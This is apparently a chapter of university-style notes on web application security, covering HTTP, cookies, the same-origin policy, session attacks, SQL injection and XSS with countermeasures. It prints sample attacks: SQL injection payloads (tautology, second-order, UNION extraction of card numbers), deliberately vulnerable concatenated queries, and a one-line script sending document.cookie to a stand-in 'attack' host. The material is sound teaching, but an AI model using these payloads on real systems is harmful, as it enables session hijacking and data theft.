\chapter{Web application security}\label{chapter:web-application-security}

\section{The web platform}

In what follows we'll briefly discuss the web platform. Most internet users will navigate the web using a web browser. A web browser is a piece of software that displays HTML, and executes JavaScript. It allows the user to interact with multiple sites at the same time, and handle user interface and network events.

Browsers also offer a powerful API to scripts:
\begin{itemize}
	\item Inspecting / modifying the page;
	\item Inspecting / modifying page metadata, e.g. Cookies;
	\item Sending / receiving HTTP (XMLHttpRequest API);
	\item Event handling.
\end{itemize}

The following paragraphs take a closer look at the typical elements that are used when navigating to a web page. These include the URL to find the resource, a stateless communication protocol to transer the application data and ways to introduce state, and a markup language and scripting langauge to view and run the web page/application.


\subsection{Uniform Resource Locator}

When a user wishes to access an online web page via his/her browser, he/she will enter the uniform resource locator (URL) of that page in the browser's address bar. An example of an URL is http://districted.wordpress.com/concepts/. \textbf{Figure 1} shows the URL structure. An URL consists of the following seven components of which some are optional [1]:
\begin{enumerate}
	\item Scheme/protocol name: e.g. http, https, ftp, ...;
	\item Credentials: login and password (optional);
	\item Address: either a DNS name or an IP address;
	\item Port: optional port number on the server;
	\item Hierarchical path name to the resource;
	\item Optional query string parameters;
	\item Optional fragment identifier.
\end{enumerate}


\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.9\columnwidth]{img/security/url-components}
		\caption{URL components. Optional components are indicated with dotted lines.}
		\label{fig:url-components}
	\end{center}
\end{figure}





\subsection{The HyperText Transfer Protocol}

Entering an URL into a browser navigation initiates an HTTP dialogue between browser and server. The server can be implemented in many different ways and essentially maps requests to responses [1]. The Hypertext Transfer Protocol (HTTP) is a stateless application-level request-response protocol that normally runs over TCP [1,2]. It is often used in combination with some mechanisms to track state [1] such as cookies and sessions, and often used in combination with authentication and/or secure communication extensions [1], like for example HTTPS.

HTTP request and response headers written in ASCII, and the HTTP contents are given in a MIME [2]. A general HTTP request consists out of a method, header and body, cf. \textbf{figure 2}. HTTP supports a variety of methods, but only two matter in practice, as shown in \textbf{table 1}. Other methods are for example DELETE, PUT, and HEAD [2]. HTTP request headers may take a several forms. Much of the metadata in an HTTP request header is security relevant [1].

\begin{lstlisting}[language=xml, caption=HTTP request., label=listing:http-request]
<METHOD> /path/to/resource?query_string HTTP/1.1
<header>*

<BODY>
\end{lstlisting}


\begin{table}[H]
	\caption{Part of the HTTP request API, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:api:collections}
	\begin{tabular}{p{150px} | p{250px}}
		\textbf{Operation} & \textbf{Description} \\
		\hline
		\texttt{GET} 	& Read a web page. Intended for information retrieval Typically the body is empty. \\
		\texttt{POST} 	& Append to a web page. Intended for submitting information. Typically the body contains the submitted information. \\
		\hline
	\end{tabular}
\end{table}


\begin{table}[H]
	\caption{Some HTTP request message headers, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Header} & \textbf{Type} 	& \textbf{Meaning} \\
		\hline
		Accept					& Request & The type of pages the client can handle. 							\\
		Accept-Charset	& Request & The character sets that are acceptable to the client. \\
		Host						& Request & The server's DNS name. 																\\
		Authorization		& Request & A list of the client's credentials. 									\\
		Referer					& Request & The previous URL from which the request came.					\\
		Cookie					& Request & Previously set cookie sent back to the server. 				\\
		\hline
	\end{tabular}
\end{table}


The general structure of an HTTP response is shown in \textbf{figure 3}. Similar to the request headers, response headers also contain security relevant metadata. Important HTTP response status codes are listed in \textbf{table 3}.

\begin{lstlisting}[language=xml, caption=HTTP response., label=listing:http-request]
HTTP/1.1 <STATUS CODE> <STATUS MESSAGE>
<header>*

<BODY>
\end{lstlisting}

\begin{table}[H]
	\caption{Status code response groups, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Code} & \textbf{Meaning} 	& \textbf{Examples} \\
		\hline
		$1xx$	& Information 	& $100$ = server agrees to handle client's request. 		\\
		$2xx$	& Success 			& $200$ = request succeeded; $204$ = no content present \\
		$3xx$	& Redirection 	& $301$ = page moved; $304$ = cached page still valid 	\\
		$4xx$	& Client error	& $403$ = forbidden page; $404$ = page not found 				\\
		$5xx$	& Server error	& $500$ = interal server error; $503$ = try again later \\
		\hline
	\end{tabular}
\end{table}



\begin{table}[H]
	\caption{Some HTTP response message headers, adapted from \cite{Tanenbaum:2002:CN:572404}.}
	\label{tab:}
	\begin{tabular}{p{75px} | p{75px} | p{200px} }
		\textbf{Header} & \textbf{Type} & \textbf{Meaning} \\
		\hline
		Set-Cookie				& Response & Cookie for the client to store. 							\\
		Server						& Response & Information about the server. 								\\
		Content-encoding	& Response & How the content is encoded, e.g. gzip. 			\\
		Content-type			& Response & The page's MIME type. 												\\
		Last-modified			& Response & The last time the page was changed. 					\\
		Location					& Response & Tells the client where to send its request. 	\\
		\hline
	\end{tabular}
\end{table}


\subsubsection{HTTP Secure}

The HTTP protocol itself does not provide secure communication, but the HTTP Secure (HTTPS) protocol scheme runs HTTP on top of SSL/TLS, a standardized transport layer security protocol [1]. Secure Sockets Layer (SSL) is a software security package built in in pretty much all modern browsers. Via the SSL protocol, a secure connection is set up between two sockets. It handles compression and encryption [2]. SSL/TLS is very configurable, and the security guarantees it offers depend on configuration [1]:
\begin{itemize}
	\item Usually: communication integrity and confidentiality;
	\item Sometimes: server authentication;
	\item Every now and then: client authentication;
\end{itemize}


\subsubsection{Sessions on top of HTTP}

In order to group requests from the same user, a server creates a session-id and ensures that this session-id is sent with every request, by means of either Cookies, or embedding the id in URL's and/or form fields.

Cookies are small pieces of data that are stored by the server in the client's browser as key-value pairs using the Set-cookie header. In subsequent requests by the client, this cookie is automatically sent back to the web server using the Cookie header [1]. The cookie mechanism allows websites to build and maintain state over the otherwise stateless HTTP protocol [3]. The server can control various aspects, such as [1,2]:
\begin{itemize}
	\item Expiration date (Expires field);
	\item Domain and path scope of the cookie (Path field);
	\item Security aspects: limit to https, no access from scripts (Secure field).
\end{itemize}

\textbf{Listing 1} shows how you could set up a mechanism to keep track of a user as he/she is browsing your website using parameters in the query string. This is not ideal, but it works for simple applications.

\begin{lstlisting}[language=php, caption=Example of how state can be maintained using URLs and PHP., label=listing:]
<?php
$user = $_GET['user'];
if (empty($user)) {
	$user = $controller->get_new_user_id();
}
?>
<a href="http://www.somewebsite.com/nextpage?user=<?php echo $user; ?>">
	Next page
</a>
\end{lstlisting}


Web sessions are fragile from the point of view of security. Prof. Frank Piessens discusses a number of vulnerabilities in his slides [1], as discussed further in the text.


\subsubsection{HTTP Authentication}

Basic HTTP authentication can be done by including username and password in the Authorization request header, cf. \textbf{table 2}. Users are usually authenticated at application-level through a form where username and password are transmitted over HTTPS and validated by server application.

Single-Sign-On use federated identies to support a single user-id/password combination for multiple web applications.



\subsection{HyperText Markup Language}

HyperText markup language (HTML) is a markup language for creating web pages and other information that can be displayed in a web browser. It usually contains or contains references to CSS and JavaScript code. \textbf{Listing 2} shows an example of a simple HTML web page.

\begin{lstlisting}[language=java, caption=An example HTML web page., label=listing:]
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
        <title>EXAMPLE</title>
        <meta name="description" content="Example web page"/>
        <meta name="keywords" content="html example" />
    </head>
    <body>
        <div>
            <p>This is an example HTML web page.</p>
        </div>
    </body>
</html>
\end{lstlisting}

The formatting commands in HTML correspond to a set of tags with associated attributes [2]. These tags and attributes can be used in HTML to include pointers to, and content from other sites, e.g. [1]:
\begin{itemize}
	\item The <href> attribute: clickable link to a URL
	\item The <img> tag: links to an image that is automatically retrieved and displayed
	\item The <script> tag: can link to a script that is automatically  downloaded and executed
\end{itemize}


\subsection{JavaScript}

JavaScript is a client side scripting language. It is considered a dangerous aspect of websites as it allows to run foreign code on a client machine [2].

\begin{lstlisting}[language=java, caption=A simple JavaScript script to welcome a user., label=listing:]
var name = prompt("Please enter your name", "your name");
alert("Hello " + name + "!");
\end{lstlisting}





\section{Threat scenarios}

In the first section we have sketched the web application platform. The Web is a complex platform that aggregates many stakeholders. What "Security" means is dependent on the context [5], and as a result means different things to different stakeholders. Countermeasures make assumptions about what stakeholders are malicious [1].

We discuss some common threat scenarios based on [1].


\subsection{Good browser interacts with malicious server}

In the first threat scenario the client interacts with a malicious server. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}
	\begin{center}		
		
\includegraphics[width=0.1\columnwidth]{img/security/threat-scenario-good-browser-bad-server}
		\caption{Good browser interacts with malicious server. Server attacks browser.}
		\label{fig:threat-scenario:good-browser-bad-server}
	\end{center}
\end{figure}


\subsubsection{Countermeasures}

The countermeasure against these threats is a defensive implementation of the browser by avoiding implementation level vulnerabilities and a safe design of the API offered to scripts:
\begin{itemize}
	\item Scripts have no general-purpose file system API (They do have site-specific local storage);
	\item Scripts have no general-purpose networking API (They do have site-specific networking capabilities);
	\item Scripts have no general-purpose GUI API (They do have a strong API to manipulate the web page they are part of);
\end{itemize}

\subsubsection{Attack variants}

Despite this countermeasure, many important attacks remain possible. For example exploitation of low-level vulnerabilities in the browser is a common technique for distributing malware [1].


\paragraph{Drive by download}

In a drive-by-download attack, malware is downloaded on the client's computer either by installing foreign corrupted software, or through virusses or other malware. Users may be tricked into downloading such software. These are typically spread using deceptive popups on websites or email attachments. [6]


\paragraph{Heap spraying}

Heap spraying is an attacking method to facilitate arbitrary code execution as the actual heap spraying cannot break any of the security boundaries by itself. A heap spray usually tries to attack memory structures to create a more predictable layout. [6]


\paragraph{Privacy-violating information flows}

History sniffing is an example of a privacy-violating information flow attack [7]. Browsing history may contain a fair amount of possibly privacy-sensitive information [1]. This attack is possible as in most browsers all applications share access to a single visited-page history, file cache and DNS cache.


\paragraph{Web-based device fingerprinting}

It is possible for the server to fingerprint the browser enabling it to track the browser as the user is surfing the web [1]. [3]



\subsection{Malicious server attacks other open sites}

In the second threat scenario, a malicious server attacks other open sites. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-bad-server-attacks-open-sites}
		\caption{Malicious server attacks other open sites.}
		\label{fig:threat-scenario:bad-server-attacks-open-sites}
	\end{center}
\end{figure}


The countermeasure against this threat is the same-origin-policy (SOP), described in the following paragraph.


\subsubsection{The Same-Origin-Policy (SOP)}

A same-origin-policy (SOP) is a collection of security restrictions implemented in browsers that can be roughly summarized as follows: <em>scripts can only access information belonging to the same origin as the script</em> [1].

An origin is a <scheme, address, port> triple, e.g.:
\begin{itemize}
	\item <http, www.kuleuven.be, 80>
	\item <https, www.kuleuven.be, 443>
	\item <http, www.kuleuven.be, 1080>
\end{itemize}

HTML content belongs to the origin from which it was downloaded, but included scripts belong to the origin of the html document that includes them. The rationale is that the author of the html page knows that the script is not harmful. This way, the SOP attempts to provide basic protection for good site A against malicious scripts belonging to malicious site M that the user visits at the same time.

However, this protection is not perfect. By inserting remote entities in the DOM, a script can trigger HTTP requests to other servers, performing state-changing requests to other servers. If the user's browser has privileged access to some servers, the attacker can abuse the user's privileges. For example if the user is behind a firewall, the script can access servers behind the firewall, or when the user has authenticated session with another server, the script can perform authenticated requests (a form of Cross-Site Request Forgery (CSRF)).

By inserting remote entities in the DOM, a script can trigger HTTP requests to other servers. By registering an event-handler for the onload event, the script can determine if that server exists and/or if it is accessible to the user of this specific browser. This way, an attacker can determine the existence of available resources.


\subsection{Malicious client or browser attacks server}

The third scenario involves a malicious client or browser attacking the server. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.1\columnwidth]{img/security/threat-scenario-bad-browser-good-server}
		\caption{Malicious client or browser attacks the server.}
		\label{fig:threat-scenario:bad-browser-good-server}
	\end{center}
\end{figure}

The main countermeasures for this scenario are: the implementation of access control / authorization on the server and defensive coding of the server.

Common attack vectors:
\begin{itemize}
	\item \textbf{SQL injection}, \textbf{Path injection}, \textbf{Command injection} : A command injection attack uses semantic gaps of the input handling between different components of an application. For example an input string for an SQL query has a specific syntax and meaning, but for the front-end application it is "just a string", allowing for potentially harmful input [4]. SQL and path injection are related attacks. SQL injection will be discussed later in this text;
	\item \textbf{Forceful browsing} : This attack exploits predictable URLs to otherwise private resources. For example if you know the string to a chapter you unlocked on a website has the URL http://somewebsite.com/chapter1/ then you may assume that the URL for chapter two will be http://somewebsite.com/chapter2/. Similarly, an attacker may try to retrieve information about other users et cetera;
\end{itemize}



\subsection{Attacker eavesdrops on or modifies network communication}

In the fourth scenario an attacker evedrops on the network communication or tries to intercept and modify it. \textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-evesdropping}
		\caption{Attacker eavesdrops on or modifies network communication.}
		\label{fig:threat-scenario:evesdropping}
	\end{center}
\end{figure}

The main countermeasure for this class of threats is the use of SSL / TLS.

Possible attack vectors:
\begin{itemize}
	\item Attacks on the Public Key Infrastructure;
	\item Attacks on SSL protocol implementations;
	\item SSL stripping;
\end{itemize}


\subsection{Attacker injects content into good site}

\textbf{Figure} gives an abstract representation of this type of this scenario.

\begin{figure}[H]
	\begin{center}		
		
\includegraphics[width=0.3\columnwidth]{img/security/threat-scenario-bad-server-injects-content}
		\caption{Attacker injects content into good site.}
		\label{fig:threat-scenario:bad-server-injects-content}
	\end{center}
\end{figure}


There are many ways in which an attacker can inject a script. For example:
\begin{itemize}
	\item \textbf{Cross-site scripting (XSS)} : This can be achieved by exploiting vulnerabilities similar to SQL injection vulnerabilities. A better name for XSS is script injection [1];
	\item \textbf{Distributing a malicious advertisement} : Many websites depend on advertisement for a significant portion of their revenues, therefore advertisements can affect a wide range of users;
	\item \textbf{Hacking a website that hosts a widely used script} : for example the jQuery library is used in a high percentage of websites, and many of them include the source dynamically. Hence, if one could hack the website and alter the source code, this could affect many websites;
	\item \textbf{The site may support third-party extensions (gadgets)};
\end{itemize}

Once part of a page, the script can violate confidentiality and integrity of the page (and corresponding session).



\section{Vulnerabilities and countermeasures}

\subsection{Session handling}

A session has usually an authentication level associated with it. Hence, if an attacker can take over a session, or inject requests into a session, he can act with authenticated user privileges.


\subsubsection{Session hijacking}

Session tracking is usually done by means of cookies, hence attackers may try to gain control over the session by stealing the user's Cookie for example. Session hijacking is an attack where the attacker gains access to the session cookie value. To achieve this, an attacker may sniff on the network, try stealing it through scripting, or simply by guessing it [1], e.g. brute force.

Countermeasures for these attacks are among others the use of SSL/TLS, HTTPOnly-flags on cookies, and the use of secure random number generators to make guessing the correct Cookie value much harder [1].


\subsubsection{Session fixation}

Session fixation is an attack where the attacker forces the victim to use a session-identifier of the attacker, for example through means of scripting [1]. This is possible when the application does not assign a new session id when authenticating the user. This way the attacker can obtain an authenticated session when the user logs into his/her account.

A possible countermeasure is to renew the session cookie when the authentication level changes [1].


\subsubsection{Cross-site Request Forgery (CSRF)}

Through CSRF the attacker tricks the browser into injecting a request into an authenticated session. This can be done by means of scripting or remote resource inclusion. To counter this, a secret token can be included in the response, the origin header should be checked strictly, or by using client-side solutions, e.g. CsFire [1].


\subsubsection{Clickjacking}

Clickjacking an attack where a user is tricked in clicking on a button or link. The "click" is then used to trigger a request. If the user is using an authenticated session, this may be exploited to gain control of the user's session.

The user can be tricked by layering transparent frames over a button or link such as an invisible iframe. A frame is a subunit of a window and can act like a smaller window.

Possible countermeasures are:
\begin{itemize}
	\item \textbf{Framebusting JavaScript code} : This is a countermeasure that prevents including a web page within a frame;
	\item \textbf{X-Frame-Options header} : The X-Frame-Options HTTP response header can be used to tell a browser whether or not it is allowed to render a page in a <frame> or <iframe>.
\end{itemize}


\subsection{SQL injection}

One of the most common attacks on web applications today are SQL injections. An SQL Injection Attack is an interaction with such a web application where the user succeeds in modifying the intended effect of the created SQL queries [1,8]. This way an attacker can get access to data that he/she is not authenticated to access otherwise.

Halfond et al. [8] describe SQL injection attacks with the following characteristics: the injection mechanism and the attack intent.


\subsubsection{Injection Mechanisms}

Any input used by the web application that can be set by the attacker is a potential injection site. Halfond et al. [8] lists a number of injection mechanisms:
\begin{itemize}
	\item \textbf{Injection through user input} : For example through HTML form fields;
	\item \textbf{Injection through Cookies} : These are not directly set by a web app user, but are attacker modifiable;
	\item \textbf{Injection through server variables} : For example using HTTP Request headers, which are not directly set by a web app user, but attacker modifiable;
	\item \textbf{Second-order injections} : Using persistent data to execute an attack when that data is used in a database call;
\end{itemize}


\paragraph{Injection through user input}

The following example is based on the tutorial by W3Schools. In this scenatio an attacker gives as input a tautology to gain access to the user account. The form data is submitted through an HTTP request method (POST) to the server.

\begin{lstlisting}[language=html, caption=The login input form in HTML., label=listing:sql-injection:result]
<form action="/login" method="post">
	<p>
		User Name:<br>
		<input type="text" name="username" value="">
	</p>
	<p>
		Password:<br>
		<input type="text" name="userpassword" value="">
	</p>
	<p>
		<input type="submit" title="Login"/>
	</p>
</form>
\end{lstlisting}


\begin{lstlisting}[language=sql, caption=Server code that processes the form input., label=listing:sql-injection:jaavscript]
uName = getRequestString("username");
uPass = getRequestString("userpassword");

sql = "SELECT * FROM Users WHERE Name ='" + uName + "' AND Pass ='" + uPass + "'"
\end{lstlisting}

\begin{lstlisting}[language=sql, caption=The resulting query string., label=listing:sql-injection:result]
SELECT * FROM Users WHERE Name ="" or ""="" AND Pass ="" or ""=""
\end{lstlisting}

\paragraph{Injection through Cookies}

Cookies are stored at the client site and sent back to the server via HTTP to maintain state, as we have seen earlier. A malicious client however, could alter the cookie's contents. If these contents are used in SQL strings at the server side, a client could then try to execute an SQL injection attack [8].


\paragraph{Injection through server variables}

Websites may log server variables, such as HTTP and network headers, and environmental variables, in SQL databases. If these strings are not properly sanitized, attackers may attempt to alter these variables and execute an injection attack. This can be achieved for example by modifying HTTP and network headers [8].


\paragraph{Second-order SQL injection}

A second order injection is a two phase attacks where the attacker first get some input in the database, and then the app uses this stored input to construct new queries [1].

An example of second-order injection goes as follows. Suppose password updating is implemented using the following constructed query:

\begin{lstlisting}[language=java, caption=Query for updating the password of a user{,} where username is loaded from the database., label=listing:sql-injection:second-order:javascript]
query = "UPDATE users SET password = '" + newPassword
    + "' WHERE  username = '" + username
	+ "' AND    password = '" + oldPassword + "'";
\end{lstlisting}


\begin{enumerate}[Step 1.]
	\item  Register as a user with name "admin' - -". No SQL injection at this point: the name is properly escaped and stored in the database.
	\item Update password, resulting in a query shown in \textbf{listing \ref{listing:sql-injection:second-order:sql}}.
\end{enumerate}

\begin{lstlisting}[language=sql, caption=The resulting query string., label=listing:sql-injection:second-order:sql]
UPDATE users SET password = 'newpwd'
WHERE  username = 'admin' -- 'AND password = 'oldpwd'
\end{lstlisting}



\subsubsection{Attack intents}

Attackers can achieve a variety of goals [8]:
\begin{itemize}
	\item \textbf{Identifying injectable parameters} : The attacker wants to probe a web application to discover which parameters and user-input fields are vulnerable to SQLIA;
	\item \textbf{Performing database finger printing} : The attacker wants to acquire database metadata, for example type and version of DBMS, et cetera, as certain types of databases respond differently to different queries and attacks.
	\item \textbf{Determining database schema} : To correctly extract data from a database, the attacker often needs to know database schema information;
	\item \textbf{Extracting, modifying or adding data} : The goal of these attacks is to retrieve, add or change information in a database;
	\item \textbf{Performing denial-of-service} :  These attacks are performed to shut down the database of a Web application;
	\item \textbf{Avoiding detection} : This category refers to certain attack techniques that are employed to avoid auditing and detection by system protection mechanisms;
	\item \textbf{Bypassing authentication} : For example to assume the rights and privileges associated with another application user;
	\item \textbf{Executing remote commands} : These types of attacks attempt to execute arbitrary commands on the database;
	\item \textbf{Privilege escalation.} : attacks focus on exploiting the database user privileges.
\end{itemize}


\subsubsection{SQL Injection Attack Types}

We discuss a number of of SQL injection attack types identified by Halford et al. [8]:
\begin{itemize}
	\item \textbf{Tautologies};
	\item \textbf{Illegal / Logically incorrect queries};
	\item \textbf{Union queries}.
\end{itemize}


\paragraph{Tautologies}

\subparagraph{Attack intent} Bypassing authentication, identifying injectable parameters, extracting data.
\subparagraph{Description} A tautology is a logical expression that always evaluates as true, for example 1 = 1. Usually this kind of strategy is applied when trying to tamper with conditional statements in the WHERE clause of an SQL query [8].
\subparagraph{Example} An example of this kind of attack was already given earlier. A similar SQL query is shown in \textbf{listing}. In this case we use the input "'' or 1 = 1 - -".

\begin{lstlisting}[language=sql, caption=Tautology in an SQL string., label=listing:sql-injection:tautology]
SELECT * FROM Users WHERE id = '' or 1 = 1 -- AND password = ''
\end{lstlisting}

\paragraph{Illegal / Logically incorrect queries}

\subparagraph{Attack intent} Identifying injectable parameters, performing database finger-printing, extracting data.
\subparagraph{Description} Often, the error pages resulting from database errors are very descriptive. This makes it interesting for attackers to try and create errors on carefully chosen tables, records or columns to find out more about the database structure for example. Type errors, syntax errors, and logical errors are all valuable information to an attacker [8].
\subparagraph{Example} The following example is taken from [8]. The SQL query is shown in \textbf{listing} has resulted in the following error message: "Microsoft OLE DB Provider for SQL Server ($0x80040E07$) Error converting nvarchar value 'CreditCards' to a column of data type int." From this information an attacker learns that the database is an SQL Server Database and the type and name of the CreditCards column.

\begin{lstlisting}[language=sql, caption=Illegal / logically incorrect query., label=listing:sql-injection:illegalquery]
SELECT accounts FROM users
WHERE login = ''
AND   pass  = ''
AND   pin   = convert (int,(select top 1 name from sysobjects where xtype='u'))
\end{lstlisting}


\paragraph{Union queries}

\subparagraph{Attack intent} Bypassing Authentication, extracting data.
\subparagraph{Description} Using UNION queries, attackers can execute additional arbitrary SELECT queries. The result is the union of the results from the first and the second, injected query.
\subparagraph{Example} The following example is taken from [8]. The first part of the union query will return no results, the second one however, will output the card number for account 10032.

\begin{lstlisting}[language=sql, caption=Union query., label=listing:sql-injection:unionquery]
SELECT accounts FROM users
WHERE login= ''
UNION
SELECT cardNo FROM CreditCards
WHERE acctNo = 10032 -- AND pass= '' AND pin=
\end{lstlisting}



\paragraph{Others}

Other SQL injection attack types are based on for example piggy-backed queries, stored procedures, inference, alternate encodings, et cetera.


\subsubsection{Countermeasures}

Halford et al. list a number of countermeasures, defensive coding practises and other techniques that can be applied in each development stage. The three phases of the development cycle are as follows [1]:
\begin{itemize}
	\item \textbf{At coding time} : prevent the introduction of vulnerabilities;
	\item \textbf{At testing time} : detect the presence of vulnerabilities;
	\item \textbf{At run time} : detect attacks that exploit remaining vulnerabilities;
\end{itemize}


\paragraph{At coding time}

Defensive coding is a first logical step towards the prevention of SQL injection. This can be done through the sanitization of input and output, e.g. type checking, escaping, special characters, et cetera. Also, whitelisting of allowed inputs and identification of all input sources is possible, as well as the use of prepared statements (pre-parsed pieces of SQL), and the use of new query development paradigms.

It is clear that retrofitting to legacy code is labour intensive.


\paragraph{At testing time}

Static, dynamic or hybrid checking of code during the development or testing phase. For example, Fortify Source Code Analyzer, FindBugs, and Coverity Static Analysis are tools to achieve this. Based on a combination of "rules" that identify dangerous coding patterns, and an information flow analysis. If user input can reach a dangerous "sink" without being sanitized, an alarm is given. These tools can suffer from false positives and false negatives.


\paragraph{At run time}

Precise taint-tracking and detecting where user input influences SQL parse tree. See also [3].


\subsubsection{SQL injection: conclusions}

SQL injection vulnerabilities are an important class of vulnerabilities in web applications. For greenfield code, it is well understood how to avoid the introduction of such vulnerabilities. Making sure that a legacy code base is free from such vulnerabilities is non-trivial.


\subsection{Web scripts}

Although the SOP prevents scripts from directly connecting to attacker-controlled servers, scripts can include remote entities into the web page, leading to a HTTP request to a script-specified server. \textbf{Figure} shows an example how cookies can be leaked from a page. By including remote scripts, the attacker can even set up two-way communication (JSONP).

\begin{lstlisting}[language=java, caption=How to leak cookies from a web page., label=listing:]
new Image().src = "http://attack/?=" document.cookie;
\end{lstlisting}

To then take over the user's session, the script can initiate arbitrary requests to the originating server, i.e. blindly inject additional requests in the user session. Alternatively, the script can leak the session cookie (as shown before).


\subsubsection{Countermeasures}

The two main countermeasures for script security are:
\begin{enumerate}
	\item The design of the JavaScript API / browser
	\item The Same-Origin-Policy enforcement by the browser
\end{enumerate}

These handle mainly attacks of scripts against the browser or other open sites. Additional countermeasures for script injection are important:
\begin{itemize}
	\item Defensive programming protects against XSS vulnerabilities (cfr SQL injection), e.g. input validation and output encoding.
	\item Content Security Policies are a new W3C standard that lets the web app authors declare where they expect the client to load resources.
	\item "Sandboxing" of JavaScript code to limit the capabilities of an included script by means of a programmer provided policy.
	\item Information flow control for JavaScript to limit how information can flow through scripts from sensitive sources to public sinks.
\end{itemize}


\subsection{Others}

Piessens [1] lists some other vulnerabilities such as weak access control (forceful browsing, bad or no policies), weak cryptographic protection (SSL stripping, PKI failures), browser implementation vulnerabilities (drive-by-downloads, heap spraying), and so forth.




\section{Conclusions}

Piessens [1] concludes that the web is a very influential application platform, but the technological complexity makes it vulnerable in many ways. It is another instance of the attacker-defender race. Many attack techniques are well understood, but new ones can be expected to surface.

Similar attacks (and defenses) can be expected on the mobile platforms.


